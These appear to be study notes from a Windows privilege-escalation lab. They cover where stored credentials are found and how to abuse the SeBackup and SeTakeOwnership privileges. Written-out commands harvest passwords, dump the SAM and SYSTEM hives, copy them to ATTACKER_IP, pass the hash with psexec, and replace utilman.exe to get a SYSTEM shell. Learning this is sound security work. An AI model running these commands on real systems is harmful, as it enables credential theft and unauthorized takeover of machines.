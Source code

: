### Windows Users

**SYSTEM/LocalSystem**

An account used by the operating system to perform internal tasks. It has full access to all files and 

resources available on the host with even higher privileges than administrators.

**Local Service**

Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.

**Network Service**

Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.

### Harvesting Passwords from Usual Spots

**Unattended Windows Installations**

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

**Powershell History**

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:

*To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile*
```JavaScript
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Saved Windows Credentials**

The command below will list saved credentials. 

```JavaScript
cmdkey /list
```

Although you wont be able to see the credentials, use the *runas* command and the */savecred* option/
```JavaScript
runas /savecred /usr:admin cmd.exe
```

**IIS Configuration**

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```JavaScript
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

**Retrieve Credentials from Software: PuTTY**

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

```JavaScript
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### Scheduled Tasks

Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```JavaScript
schtasks /query /tn vulntask /fo list /v
```



```JavaScript

```

## Abusing Service Misconfigurations

Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.

All of the services configurations are stored on the registry under HKLM\SYSTEM\CurrentControlSet\Services\ .


## SeBackup / SeRestore

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

**Verfiy your privileges**

```JavaScript
whoami /priv
```

**To backup the SAM and SYSTEM hashes, we can use the following commands**

```JavaScript
reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive
```

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use impacket's smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox:

```JavaScript
mkdir share

python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, we can use the copy command in our windows machine to transfer both files to our AttackBox

```JavaScript
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

And use impacket to retrieve the users' password hashes:

```JavaScript
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

```JavaScript
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.13.127
```

## SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.

Check your privileges

```JavaScript
whoami /priv
```

- We'll abuse utilman.exe to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen
- Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.
- To replace utilman, we will start by taking ownership of it with the following command:

```JavaScript
takeown /f C:\Windows\System32\Utilman.exe
```

Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need. To give your user full permissions over utilman.exe you can use the following command:

```JavaScript
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```

Now replace utilman.exe with a copy of cmd.exe:

```JavaScript
copy cmd.exe utilman.exe
```

To trigger utilman, lock your screen from the start button. Afterwards, click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:
